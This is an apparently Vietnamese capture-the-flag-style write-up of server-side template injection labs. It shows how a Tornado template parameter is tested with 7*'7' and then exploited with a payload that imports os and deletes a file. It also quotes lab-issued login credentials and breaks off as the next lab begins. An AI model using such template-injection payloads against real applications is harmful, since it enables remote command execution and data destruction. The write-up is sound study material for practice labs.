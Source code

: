 Request này sẽ đổi tham số `blog-post-author-display` -> Tên user khi thực hiện comment trên các bài blog thay đổi thành name , nickname hoặc first name (ở đây là **user.nickname**)

![image](https://hackmd.io/_uploads/BkuAXrMhC.png)

Có thể hiểu server render tên author bằng expression: `{{
blog-post-author-display}}`

Nhưng tham số này ta hoàn toán có thể thay đổi theo ý thích, do mô tả đã gợi ý template được sử dụng là Tornado, mình thử inject payload kiểm tra SSTI như sau:

```
blog-post-author-display=7*'7'
```

-> Khi render sẽ trở thành {{7*'7'}}

![image](https://hackmd.io/_uploads/SkNwSSM3A.png)

![image](https://hackmd.io/_uploads/HJ-9HBfnR.png)

Dựa vào hacktricks có thể xác định vị trí này dính lỗ hổng SSTI -> Sau khi biết chỗ có thể inject ta chỉ cần thay đổi vầ chèn payload thực hiện lệnh OS theo yếu cầu bài lab:

```
blog-post-author-display=7*'7'}}{% import os %}{{os.system('rm /home/carlos/morale.txt')
```

```
7*'7'}} -> Inject và kết thúc sớm expression
{% import os %}{{os.system('rm /home/carlos/morale.txt') -> Import để chạy các lệnh OS và thực hiện remove file.
```

![image](https://hackmd.io/_uploads/B1U2SSGhA.png)

## Flag:

![image](https://hackmd.io/_uploads/HkJKLBMhA.png)

# Server-side template injection using documentation
## Target Goal:
This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials:
```
content-manager:C0nt3ntM4n4g3r
```
## Analysis:
Sau khi đăng nhập vào tài khoản được cấp, chúng ta có chức năng **Edit template** ở detail ở các sản phẩm
